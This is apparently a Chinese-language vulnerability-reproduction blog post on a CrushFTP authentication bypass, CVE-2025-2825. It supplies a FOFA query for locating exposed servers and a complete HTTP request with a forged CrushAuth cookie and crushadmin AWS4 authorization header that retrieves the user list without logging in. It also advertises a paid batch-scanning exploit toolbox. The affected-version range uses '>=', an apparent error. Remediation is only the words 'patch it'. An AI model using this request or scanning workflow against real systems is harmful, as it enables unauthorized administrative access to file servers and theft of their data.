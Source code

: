 #  Crushftp存在未授权访问漏洞CVE-2025-2825 附POC   
2025-4-7更新  南风漏洞复现文库   2025-04-07 22:03  
  
   
  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Crushftp简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
Crushftp  
## 2.漏洞描述  
  
CrushFTP 身份验证绕过漏洞(CVE-2025-2825)，该漏洞源于处理身份验证标头不当，攻击者可绕过认证机制获取管理员权限，进而可能获取敏感信息、篡改数据或执行其他恶意操作。Crushftp存在未授权访问漏洞  
  
CVE编号:CVE-2025-2825  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
CrushFTP 10.* >= 10.8.4 CrushFTP 11.* >= 11.3.4  
![Crushftp存在未授权访问漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3a8n4O8CcemPYgGUx8fsR5pJZl0cXRibr9bUvTuDMoPHmE7zOpHb6gxyicuPYkFlnYeicOLJ53oNia5fQ/640?wx_fmt=png&from=appmsg "null")  
  
Crushftp存在未授权访问漏洞  
## 4.fofa查询语句  
  
icon_hash="-1022206565"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111  
  
漏洞数据包：  
```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111 HTTP/1.1
Host: xxx.xx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Cookie: CrushAuth=1743113839553_vD96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a8n4O8CcemPYgGUx8fsR5pF5GqxdFiaJKcdCnZ1gejGelT6y12A6JD1gHavGKZuAQbyxzDfiaLKQ3Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a8n4O8CcemPYgGUx8fsR5p4Wiaj4ObyF7rUhUiaVczPic063aibicpmNrd0ic29BaVWcricAyH0k5BJT7Qw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a8n4O8CcemPYgGUx8fsR5pcMnCgJj38S2MYE3e6YmSdptRwb32Z2812SAws0FndogxRJThlNal2A/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a8n4O8CcemPYgGUx8fsR5pSNxfrNybuSRoAM7yx5jNqyjqp7zicBHXljew7YiazSjPxUvRz8qxNiaaA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a8n4O8CcemPYgGUx8fsR5pjGczYvPnLIYrljCZdeGAzibyZUWQnZjkxgt8o3blSndLRY5fUEjEhiag/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a8n4O8CcemPYgGUx8fsR5piaRDFSzD55uoBJnkgY0XrgIUGiblQ6q55dlIFlwY1qFbyk84SDlJQKuQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
   
  
  
  
